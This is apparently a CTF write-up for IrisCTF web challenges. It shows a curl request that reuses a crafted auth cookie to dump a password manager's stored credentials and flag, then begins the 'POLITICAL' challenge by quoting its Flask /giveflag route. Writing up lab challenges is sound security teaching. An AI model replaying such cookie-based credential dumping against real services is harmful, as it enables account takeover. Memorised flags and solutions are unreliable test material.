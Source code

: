 ```bash
< content-length: 2
< set-cookie: auth=eyJ1c3IiOiJza2F0IiwicHdkIjoicmY9ZWFzeS1pdHMranVzdFx1MDAyNnNwaWN5c2luZXMxMjMhQCJ9
< strict-transport-security: max-age=31536000; includeSubDomains
< 
* Connection #0 to host password-manager-web.chal.irisc.tf left intact
```

- Make a request to route `getpasswords` to find the flag

```bash
❯ curl https://password-manager-web.chal.irisc.tf/getpasswords -H "Cookie: auth=eyJ1c3IiOiJza2F0IiwicHdkIjoicmY9ZWFzeS1pdHMranVzdFx1MDAyNnNwaWN5c2luZXMxMjMhQCJ9"
[{"Password":"mypasswordisskat","Title":"Discord","URL":"https://example.com","Username":"skat@skat.skat"},{"Password":"irisctf{l00k5_l1k3_w3_h4v3_70_t34ch_sk47_h0w_70_r3m3mb3r_s7uff}","Title":"RF-Quabber Forum","URL":"https://example.com","Username":"skat"},{"Password":"this-isnt-a-real-password","Title":"Iris CTF","URL":"https://2025.irisc.tf","Username":"skat"}]
```

- Flag-:`irisctf{l00k5_l1k3_w3_h4v3_70_t34ch_sk47_h0w_70_r3m3mb3r_s7uff}`

----------------

### POLITICAL

----------------

![image](https://github.com/user-attachments/assets/58243d3f-9037-4aae-8c0c-08be194d577b)

----------------

- There are three main files to check `policy.json`,`chal.py` and `bot.js`.

![image](https://github.com/user-attachments/assets/9b605288-be54-4a39-a5f3-3f56133beaf5)

---------------

### Explaining the routes in `chal.py`

---------------

- Code-:

```python3
from flask import Flask, request, send_file
import secrets

app = Flask(__name__)
FLAG = "irisctf{testflag}"
ADMIN = "redacted"

valid_tokens = {}

@app.route("/")
def index():
    return send_file("index.html")

@app.route("/giveflag")
def hello_world():
    if "token" not in request.args or "admin" not in request.cookies:
        return "Who are you?"

    token = request.args["token"]
    admin = request.cookies["admin"]
    if token not in valid_tokens or admin != ADMIN:
        return "Why are you?"

    valid_tokens[token] = True
```